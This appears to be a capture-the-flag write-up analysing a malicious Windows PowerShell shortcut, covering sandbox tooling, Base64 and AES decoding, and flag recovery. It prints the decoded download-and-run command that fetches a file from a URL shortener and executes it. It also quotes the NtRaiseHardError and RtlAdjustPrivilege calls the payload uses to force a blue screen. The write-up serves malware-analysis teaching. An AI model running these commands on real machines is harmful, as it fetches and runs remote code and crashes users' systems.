

# Russian Roulette

## Description

```
My PowerShell has been acting really weird!! 
It takes a few seconds to start up, and sometimes it just crashes my computer!?!?! :(
````

## Solved it within top 8 😎



## Malware Analysis Procedure

This is a malicious file; use a sandbox environment. I am running Flare VM.

[Flare VM on GitHub](https://github.com/mandiant/flare-vm)


## Default Analysis Steps

When I conduct a malware analysis, I usually check for:

- **Network connections** → Wireshark
- **Memory activities** → DumpIt → Volatility or MemProcFS
- **Processes** → Process Monitor from Sysinternals
- **Disk activity**


## Steps to solve the CTF

Download the file and extract it in a safe env.


## Initial File Inspection

The first thing I do with the file is to run the command:

file filename

```
Windows PowerShell.lnk: MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments, Archive, ctime=Sat Feb 17 05:44:00 2024, mtime=Thu Oct 03 17:53:00 2024, atime=Sat Feb 17 05:44:00 2024, length=450560, window=hidenormalshowminimized.
```

The file is a LNK (shortcut) file.

Right-click the file and select Properties to view the targets.

This reveals that PowerShell executes a Base64 string, which can be decoded to extract the following command:
```
iwr is.gd/jwr7JD -o $env:TMP/.cmd; & $env:TMP/.cmd
```
Yeah, I got stuck and looked for other ways. It seemed like a rabbit hole to me. 

## Process Analysis
I can also see in the processes captured with Process Monitor that cmd spawns a PowerShell process, which then runs a Base64 string.

PID: 3660
PPID: 2116
I save the Base64 string to a file and run:
```
Base64.exe -d base64string.txt > stage2.txt
```
After decoding everything, we find that it resembles a PowerShell script with embedded C# code.

We refine the code to make it more readable (see the stage2.txt file in the folder).


## Decryption Process
We observe that decryption takes place, and we want to make the code "safe" by ONLY printing the decrypted output. Remove evrything else that dosnt have to do with the decryption.

How Does the Decryption Process Work?
Three Base64-encoded strings (c, k, and i) were decoded into byte arrays:

```c```: The encrypted text.
```k```: The AES key.
```i```: The Initialization Vector (IV) for AES.

I modify the code to print the decrypted string (see the aesdec.txt file).

Run the code and get the response: flag{REDACTED}

-------------------------------------------------------

## Note + Extra Nerdiness

[Link to additional resources](https://gist.github.com/MerijnHendriks/97f3096a5d779643ba6029d03dd86992)
[Link to additional resources](https://www.pinvoke.net/index.aspx)

If you run the code, you will experience a BSOD (Blue Screen of Death).

Why?
The code utilizes ntdll.dll, which implements basic functions for Windows. It can cause severe issues if mishandled.

```
RtlAdjustPrivilege(19, true, false, out o);
```
The number 19 represents SeShutdownPrivilege (allows the system to restart or shut down services).
```
NtRaiseHardError(0xc0000022, 0, 0, IntPtr.Zero, 6, out r);
```
NtRaiseHardError is a function that can trigger a "serious error," leading to a BSOD to prevent damage to the system.
